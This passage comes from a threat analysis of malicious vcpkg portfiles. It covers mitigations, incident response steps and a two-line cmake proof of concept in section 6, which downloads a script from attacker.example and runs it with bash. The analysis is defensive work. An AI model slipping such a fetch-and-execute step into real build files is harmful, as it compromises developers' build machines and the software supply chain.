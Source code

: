 * **Community Vigilance and Reporting:**
    * **Encourage Reporting:**  Establish clear channels for reporting suspicious portfiles or build behavior.
    * **Transparency:**  Communicate security practices and potential risks to the vcpkg user community.
* **Formal Verification (for critical portfiles):**  For highly sensitive projects, consider using formal verification techniques to mathematically prove the absence of certain vulnerabilities in critical portfiles.
* **Secure Development Practices for Custom Overlays:** If using custom overlays, apply the same rigorous security practices as for the official repository, including access control, code review, and security scanning.
* **Supply Chain Security Awareness Training for Developers:** Educate developers on the risks associated with using third-party libraries and the importance of verifying the integrity of dependencies.

**6. Proof of Concept (Illustrative Example):**

A malicious portfile could contain the following code snippet within a `portfile.cmake` file:

```cmake
file(DOWNLOAD "https://attacker.example/malicious_script.sh" "${CURRENT_PACKAGES_DIR}/malicious_script.sh" SHOW_PROGRESS)
execute_process(COMMAND bash "${CURRENT_PACKAGES_DIR}/malicious_script.sh")
```

This simple example demonstrates how an attacker could:

1. **Download a malicious script:** The `file(DOWNLOAD ...)` command fetches a script from an attacker-controlled server.
2. **Execute the malicious script:** The `execute_process(COMMAND bash ...)` command runs the downloaded script using `bash`.

The `malicious_script.sh` could then perform various harmful actions, such as:

* Exfiltrating environment variables.
* Downloading and executing further payloads.
* Modifying build outputs.

**7. Detection and Response:**

If a malicious portfile attack is suspected or detected, the following steps are crucial:

* **Isolate the Build Environment:** Immediately disconnect the compromised build machine from the network to prevent further damage or data exfiltration.
* **Identify the Compromised Portfile:** Determine which portfile was the source of the malicious activity.
* **Analyze the Malicious Code:** Investigate the code to understand its purpose and the extent of the compromise.
* **Review Build Logs:** Examine build logs for suspicious activity, such as unexpected network connections or file modifications.
* **Scan Built Artifacts:** Scan the resulting libraries and executables for malware or backdoors.
* **Notify Affected Parties:** Inform users or customers who may have received builds produced with the compromised portfile.
* **Remediate the Vulnerability:**  Remove the malicious code, update the portfile, and implement stronger security measures.
* **Incident Response:** Follow established incident response procedures to contain the damage and prevent future incidents.
* **Forensic Analysis:** Conduct a thorough forensic analysis to understand how the compromise occurred and identify any other affected systems.
